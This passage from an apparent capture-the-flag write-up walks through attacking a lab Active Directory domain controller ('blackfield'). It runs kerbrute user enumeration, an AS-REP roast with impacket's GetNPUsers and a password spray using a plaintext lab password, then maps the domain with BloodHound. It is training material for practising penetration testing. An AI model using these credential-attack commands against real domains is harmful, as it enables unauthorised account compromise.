 create a file with the valid user list

```bash
$ cat kerbrute.rpc.userenum.out | grep 'VALID USERNAME' | awk '{print $7}' | awk -F@ '{print $1}' > valid_rpc_users.lst
```

Running GetNPUsers to perform an ASREP Roast

```bash
$ ~/impacket/examples/GetNPUsers.py -dc-ip 10.10.10.192 -no-pass -usersfile valid_rpc_users.lst blackfield/
```

No new hashes.

Passwordspray valid users with password of `support` user

```bash
~/Downloads/kerbrute_linux_amd64 passwordspray --dc 10.10.10.192 -d blackfield valid_rpc_users.lst '#00^BlackKnight'
```

This does not work as our local clock is too far from the domain one. However update the clock didn't work

```bash
$ sudo ntpdate 10.10.10.192
ntpdig: no eligible servers
```

Let's get more data using bloodhound

```bash
mkdir bloodhound
cd bloodbound
$ bloodhound-python -ns 10.10.10.192 -d blackfield.local -u support -p '#00^BlackKnight' -c all 
```

Then we start bloodhound database (neo4j) and bloodhound

```bash
sudo neo4j console
```

```bash
bloodhound
```

Investigating the details we got, we found out that the user `support` user can change the password of the `audit2020` user - `ForceChangePassword`.
